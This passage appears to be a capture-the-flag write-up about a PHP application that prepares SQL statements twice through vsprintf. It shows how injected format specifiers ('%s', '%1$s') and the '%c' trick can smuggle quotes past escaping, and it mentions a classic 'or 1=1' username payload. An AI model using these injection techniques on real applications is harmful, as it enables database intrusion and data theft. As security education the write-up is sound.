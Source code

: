So it was time to get creative. The vulnerability here is that the statement is being prepared twice. This means it's going through `vsprintf` twice, which means we can do some interesting replacements.
Any `%s` that makes it through the first prepare will be handled by the second prepare.

Example:
```
$_GET['uid'] = '%s';
$prepare_qr = $jdb->addParameter("SELECT goods.name, goods.description, goods.img from goods inner join info on goods.uid=info.gid where gid=%s",  $_GET['uid']);
echo $prepare_qr

// out
// SELECT goods.name, goods.description, goods.img from goods inner join info on goods.uid=info.gid where gid=%s


$prepare_qr = $jdb->addParameter($prepare_qr.' and user=%s', $username);
// out
// ERROR!
```
The second prepare fails here, because it's trying to replace two `%s` in the string and it only has one variable to do so. I was stuck on this for a while: The number of supplied arguments to `vsprintf` must match the number of variables in the format string.
_or so I thought!_

Not all too surprisingly, it turns out there's a strange syntax to use positional arguments in format strings. This allows you to put one variable into multiple spots.
The syntax is: `%i$s` (Where i is the index of the argument, and s is the type of variable, which in this case is string).
Example:

```
$data = array("World", "Mars");
echo vsprintf("Hello %s! Hello %s!", $data);
// out: Hello World! Hello Mars!

echo vsprintf("Hello %1\$s! Hello %1\$s!", $data);
// out: Hello World! Hello World!
```

So we replace our previous payload of `$_GET['uid']='%s'` with `$_GET['uid']='%1$s'` and get:

```
...
$prepare_qr = $jdb->addParameter($prepare_qr.' and user=%s', $username);
echo $prepare_qr;

// out
// SELECT goods.name, goods.description, goods.img from goods inner join info on goods.uid=info.gid where gid='reznok' and user='reznok'
```

Okay so we can put our username into both the gid and user fields. The first thing I tried here was making a user named `'or '1' = '1'`, but that gets escaped when a user is inserted.
Fortunately, the `%c` exists with format strings! %c takes an int input (or a string that's treated as an int) and gets the ASCII equivalent. Which means we can put in a number (Which doesn't get escaped by mysqli_real_escape_string), and get any ASCII character we want, including single quotes!
